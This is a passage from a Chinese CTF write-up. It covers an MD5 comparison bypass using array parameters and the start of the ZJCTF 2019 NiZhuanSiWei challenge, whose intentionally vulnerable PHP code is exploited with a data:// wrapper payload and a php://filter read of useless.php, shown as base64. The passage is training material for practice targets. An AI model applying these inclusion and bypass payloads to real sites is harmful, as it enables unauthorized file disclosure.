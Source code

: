 MD5强类型绕过，用数组绕过

payload：

```
param1[]=1&param2[]=2
```

![image-20230420192000070](https://dabai-1316520326.cos.ap-nanjing.myqcloud.com/img/image-20230420192000070.png)

## [ZJCTF 2019]NiZhuanSiWei

```
 <?php  
$text = $_GET["text"];
$file = $_GET["file"];
$password = $_GET["password"];
if(isset($text)&&(file_get_contents($text,'r')==="welcome to the zjctf")){
    echo "<br><h1>".file_get_contents($text,'r')."</h1></br>";
    if(preg_match("/flag/",$file)){
        echo "Not now!";
        exit(); 
    }else{
        include($file);  //useless.php
        $password = unserialize($password);
        echo $password;
    }
}
else{
    highlight_file(__FILE__);
}
?> 
```

useless.php文件，访问一下

啥也没有

isset($text)&&(file_get_contents($text,'r')==="welcome to the zjctf" 我们需要传入一个内容为welcome to the zjctf的文件，

data协议通常是用来执行PHP代码，也可以将内容写入data协议中，然后让file_get_contents函数取读取

payload：

```
data://text/plain,welcome to the zjctf
```

**welcome to the zjctf**

filter协议读取useless.php

```
PD9waHAgIAoKY2xhc3MgRmxhZ3sgIC8vZmxhZy5waHAgIAogICAgcHVibGljICRmaWxlOyAgCiAgICBwdWJsaWMgZnVuY3Rpb24gX190b3N0cmluZygpeyAgCiAgICAgICAgaWYoaXNzZXQoJHRoaXMtPmZpbGUpKXsgIAogICAgICAgICAgICBlY2hvIGZpbGVfZ2V0X2NvbnRlbnRzKCR0aGlzLT5maWxlKTsgCiAgICAgICAgICAgIGVjaG8gIjxicj4iOwogICAgICAgIHJldHVybiAoIlUgUiBTTyBDTE9TRSAhLy8vQ09NRSBPTiBQTFoiKTsKICAgICAgICB9ICAKICAgIH0gIAp9ICAKPz4gIAo=
```

